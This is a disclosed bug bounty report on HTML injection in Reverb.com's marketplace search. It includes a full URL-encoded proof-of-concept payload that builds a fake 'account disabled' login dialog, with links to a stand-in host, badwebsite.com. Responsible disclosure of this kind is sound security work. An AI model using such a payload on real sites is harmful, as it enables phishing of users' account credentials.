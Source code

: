 # XSS in main search, use class tag to imitate Reverb.com core functionality, create false login window

## Report Details
- **Report ID**: 351376
- **URL**: https://hackerone.com/reports/351376
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-05-14T11:04:48.049Z
- **Disclosed**: 2018-09-08T06:11:53.296Z

## Reporter
- **Username**: kiyell
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: reverb

## Vulnerability Information
This is an expansion of #349684 which was flagged as a duplicate. In that bug report I explained that several HTML tags end up rendering when entered into the main search. I've since found out that the class attribute of multiple types of tags can be modified to create a realistic imitation of core functionality on the Reverb website.

Example: <a href="http://badwebsite.com"><span class="btn button button--orange button--wide">XSS</a></span>

In the following PoC, I used tags such as <span>, <div>, <a>, and <li> in combinations with the "class" attribute to create a prominent login box (which fades out all content underneath it) that explains that their account has been locked and to click a link in order to unlock it.


Please forgive me if this is still considered a low risk and just "Informative"

PoC: https://sandbox.reverb.com/marketplace?query=%3Cspan%20class%3D%22fotorama--fullscreen%20fancybox-mobile%20fancybox-type-html%20fancybox-opened%22%20%3E%3Cdiv%20class%3D%22fancybox-skin%22%3E%3Cdiv%20class%3D%22fancybox-inner%22%3E%3Cdiv%20class%3D%22%20registration%20tabbable%20dialog%20signup-login-container%20mlr-auto%22%3E%3Cul%20class%3D%22nav-tabs%20fluid-row%22%3E%3Cli%20class%3D%22col-6%22%3E%3Ca%20class%3D%22%22%20href%3D%22%23registration-form%22%3ECreate%20Account%3Ca%3E%3C%2Fli%3E%3Cli%20class%3D%22col-6%22%3E%3Ca%20class%3D%22active%22%20href%3D%22%23login-form%22%3ESign%20in%3Ca%3E%3C%2Fli%3E%3C%2Ful%3E%3Cdiv%20class%3D%22tab-content%20pt-1%22%3E%20%20%3Ch4%20class%3D%22session-form__header%22%3ELog%20In%20to%20Reverb%3C%2Fh4%3E%3Ch1%3EYour%20account%20has%20been%20disabled%3C%2Fh1%3E%3Cbr%3E%20%3Ccode%3EDue%20to%20multiple%20unsuccessful%20attempts%20to%20login%20to%20your%20account.%20Your%20account%20has%20been%20locked%20for%20your%20protection.%20Please%20click%20below%20to%20unlock%20it%3C%2Fcode%3E%3Cbr%3E%3Cbr%3E%3Cbr%3E%20%3Ca%20href%3D%22http%3A%2F%2Fbadwebsite.com%22%3E%3Cspan%20class%3D%22btn%20button%20button--orange%20button--wide%22%3EUnlock%3C%2Fa%3E%20%3Cp%20class%3D%22center%20small%20mt-1%22%3EForgot%20your%20password%3F%20%3Ca%20href%3D%22http%3A%2F%2Fbadwebsite.com%22%3EReset%20it%3C%2Fa%3E%20%3C%2Fp%3E%20%3Chr%20class%3D%22class%3D%22mtb-1%22%3E%20%3Ca%20class%3D%22session-form__facebook-link%22%20href%3D%22http%3A%2F%2Fbadwebsite.com%22%3E%3Cspan%20class%3D%22fa%20fa-facebook%22%3E%3C%2Fspan%3E%20Log%20In%20with%20Facebook%3C%2Fa%3E%3Cbr%3E%20%3C%2Fdiv%3E%3C%2Fspan%3E%3C%2Fspan%3E%3Cbr%3E

## Impact

A malicious user with more creativity than me could likely duplicate the appearance of other core pieces of the Reverb.com website in order to phish for user account information.

## Attachments
- Reverb_XSS_loginbox.JPG
- Reverb_XSS_loginbox_control_made_clear.JPG
